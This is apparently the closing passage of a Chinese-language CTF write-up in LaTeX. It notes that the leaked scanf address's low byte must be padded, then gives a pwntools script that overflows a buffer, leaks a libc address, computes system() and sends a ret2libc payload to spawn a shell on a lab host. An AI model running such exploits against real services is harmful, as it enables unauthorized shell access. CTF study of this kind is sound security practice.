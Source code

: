 \documentclass{article}
\begin{document}
    最后需要注意的是接收\_\_isoc99\_scanf的地址时最低字节为0，需要补齐最低位，最终脚本如下：
    \begin{itemize}
    	\item 脚本1
    	\begin{lstlisting}{language=Python}
from pwn import *
io = remote("10.0.0.10", 40007)
io.recvuntil("length:")
io.sendline(b'64')
io.recvuntil("String:")
io.send(b'/bin/sh' + b'\x00' + b'A'*0x34 + b'ABCD')
io.recvuntil("string:")
io.sendline(b"70 1")
io.recvuntil("ABCD")
scanf_addr = u32(io.recv(4))
scanf_addr = scanf_addr * int(0x100)
system = p32(scanf_addr + int(0x0003d3d0) - int(0x00063e00)) 
binsh = p32(0x0804a081)
io.send(b'A'*0xd + system + b'AAAA' + binsh)
io.interactive()
    		
    	\end{lstlisting}
    \end{itemize}
    运行结果如下，得到flag。
    \begin{figure}[H]
    	\begin{center}
    		\includegraphics[width=0.9\textwidth]{6.png}
    	\end{center}
    \end{figure}
   
\end{document}
